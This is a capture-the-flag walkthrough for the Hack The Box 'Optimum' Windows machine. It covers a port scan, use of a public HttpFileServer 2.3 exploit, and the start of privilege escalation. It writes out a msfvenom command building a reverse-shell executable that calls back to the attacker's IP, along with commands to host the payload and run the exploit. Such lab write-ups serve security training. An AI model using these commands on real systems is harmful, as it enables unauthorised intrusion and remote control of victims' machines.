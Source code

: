 # Box: Optimum
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p- 10.129.111.57```

```
Nmap scan report for 10.129.111.57
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.015 days (since Sun Sep 17 16:46:43 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.31 ms 10.10.14.1
2   197.47 ms 10.129.111.57

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 17:07:49 2023 -- 1 IP address (1 host up) scanned in 778.27 seconds
```
From the above scan, we have only 1 open port and that's the port that runs the http service. This means our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf65020f-9ec8-4168-8321-c1fbb958b182)

This webpage is being hosted by ```HttpFileServer```. 

I think there's an exploit for this version of ```HttpFileServer```, well lets check

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe5acce-0ed1-4c83-91a3-eed36f756e5f)

Well there is😅. Lets exploit right away



# Exploitation

Well, I found this great exploit, you can download it [here](https://www.exploit-db.com/exploits/39161)

So, we'll set the ```LHOST``` to our tun0 ip, we'll also set the ```LPORT``` to the port we plan on listening on

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/de36cb6b-4ff8-4fc4-a752-ca27abd72924)

Save the script.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/21bb23c8-3b48-4005-97d5-6ebc0b50c93d)

As per the instruction in the script, we were told to host a ```nc.exe``` file, well I generated the ```.exe``` file using msfvenom

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/optimum]                                                                                                                                             
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe                                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: nc.exe
```
Ensure you have your netcat listener ready before running the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35697632-7b3e-4ef6-a9f3-c6e3b673af51)

Running the script requires the target's ip and port

command:```python2 39161.py 10.129.58.117 80```

Alongside running this script, we'll host the ```nc.exe``` file

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b672fd6-0647-4542-85b7-ea610ab8a276)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f9625a2-cadc-4c0d-aa9f-c5b27dddfd01)

We didn't spawn a shell🥲, running the script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b69eaaf-5c0c-43dd-a51f-967ee0e70029)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae181f7e-1f08-435b-be9d-878565aa2d11)

We got a user shell🙂. Lets go ahead and escalate our privileges.



# Privilege Escalation

Lets run the  windows exploit suggester, you can get it [here](https://github.com/bitsadmin/wesng)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4262d643-84bb-41aa-a462-f30ab610a048)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/715e4a57-6fb2-494f-b118-b4b68849886d)

First lets update the database,

command:```python3 wes.py --update```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/66d7d16f-b1f9-432d-a0f0-a6b7f4d49730)

Done.

Lets go back to the shell we got earlier and run the ```systeminfo``` command, save the output in a file say ```systeminfo.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c735b9d0-4fbf-42bb-9a4b-f888eac61e3f)

Now, to run the script

command:```python3 wes.py path/to/systeminfo.txt -e```





















